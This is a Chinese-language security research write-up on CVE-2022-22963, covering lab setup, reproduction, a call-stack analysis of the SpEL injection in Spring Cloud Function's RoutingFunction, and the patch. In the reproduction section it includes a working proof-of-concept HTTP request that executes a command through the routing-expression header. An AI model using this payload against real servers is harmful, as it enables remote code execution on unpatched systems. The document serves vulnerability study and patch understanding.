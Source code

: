 # 前言

Spring Cloud Function 是一个具有以下高级目标的项目：

- 通过函数促进业务逻辑的实现，可以将函数设置为HTTP端点。
- 将业务逻辑的开发生命周期与任何特定的运行时目标分离，以便相同的代码可以作为 Web 端点、流处理器或任务运行。
- 支持跨无服务器提供商的统一编程模型，以及独立运行（本地或在 PaaS 中）的能力。
- 在无服务器提供程序上启用 Spring Boot 功能（自动配置、依赖注入、指标

可以直接通过HTTP请求与单个的函数进行交互，同时为spring.cloud.function.definition或者spring.cloud.function.routing-expression参数提供您要调用的函数的名称

在https://www.cnblogs.com/9eek/archive/2022/04/07/16113603.html可以看到演示

而spring.cloud.function.routing-expression允许使用spel表达式

漏洞编号：CVE-2022-22963

# 环境搭建

漏洞影响版本：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

spring项目

![image-20220409131432726](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220409131432726.png)

![image-20220409131758325](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220409131758325.png)

我使用的是3.2.2的版本

# 漏洞复现

直接启动新创建的spring项目，不用做任何修改

直接抓包修改

```
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc")
Content-Length: 0


```

![image-20220409132819051](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220409132819051.png)

# 漏洞分析

参考了一些博客和官方的commit记录，最后的漏洞触发点在RoutingFunction的functionFromExpression中

![image-20220410121547957](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410121547957.png)

最后解析的是传入的第一个参数routingExpression，看一下可控不

找一找哪里对这个函数进行了调用，可以找到一个route方法而且在这个类里面

有好几个地方都调用了

![image-20220410123646946](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410123646946.png)

先从复现的调用栈来开始吧

![image-20220410121432294](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410121432294.png)

入口点在FunctionController的form方法里面

![image-20220410121623155](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410121623155.png)跟进这里的processRequest

![image-20220410121837124](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410121837124.png)

其实这里wrapper的headers的内容就是我们http数据包的一些请求头的内容构成的一个数组

接下来的会通过MessageBuilder.withPayload(argument).copyHeaders(headers.toSingleValueMap()).build()来请求头的信息编译成Message放入inputMessage中，最在放入input参数中，通过function.apply方法调用

跟进这里的apply方法

![image-20220410122601641](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410122601641.png)

接着调用doApply方法

![image-20220410122756742](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410122756742.png)

这里的this.target指向了RoutingFunction类，跟进apply方法来到RoutingFunction的apply方法

![image-20220410122857003](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410122857003.png)

跟进来到前面提到的route方法，向下步进

如果请求头存在spring.cloud.function.routing-expression字段，则进入下面的代码区域

![image-20220410124723821](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410124723821.png)

```
function = this.functionFromExpression((String)message.getHeaders().get("spring.cloud.function.routing-expression"), message);
```

调用了漏洞触发函数functionFromExpression并传入两个参数，第一个是请求头中的spring.cloud.function.routing-expression的值，第二个是整个message的值

跟进functionFromExpression

![image-20220410125131739](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410125131739.png)

对spring.cloud.function.routing-expression的值进行spel表达式解析，最后看一下getValue中this.evalContext的值

![image-20220410125223233](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410125223233.png)

是StandardEvaluationContext，那就没问题了，可以解析类，最后达到spel表达式注入

# 补丁分析

补丁参考地址https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

![image-20220410125926438](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410125926438.png)



![image-20220410130007779](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220410130007779.png)

和大多数Spel漏洞的修复一样，都是引入了SimpleEvaluationContext来修补，这里的headerEvalContext就是使用SimpleEvaluationContext来解析的

# 写在最后

这个漏洞的理解其实并不难，和Spring Cloud Gateway一样是一个spel注入漏洞，更多的理解我觉得是对组件的一个理解，像Spring Cloud Gateway增加路由刷新路由的操作，然后会去调用什么函数走到最后spel注入的代码块，这个漏洞也一样，要去了解动态路由functionRouter，看过一些文章，他们最开始的调用栈并不是form方法，也可能也是组件版本的一些影响，但是最后都是走到了RoutingFunction的apply方法





参考链接

https://www.cnblogs.com/wh4am1/p/16062306.html

https://www.anquanke.com/post/id/271167#h2-1

https://blog.csdn.net/weixin_44112065/article/details/123965187

https://www.cnblogs.com/9eek/archive/2022/04/07/16113603.html
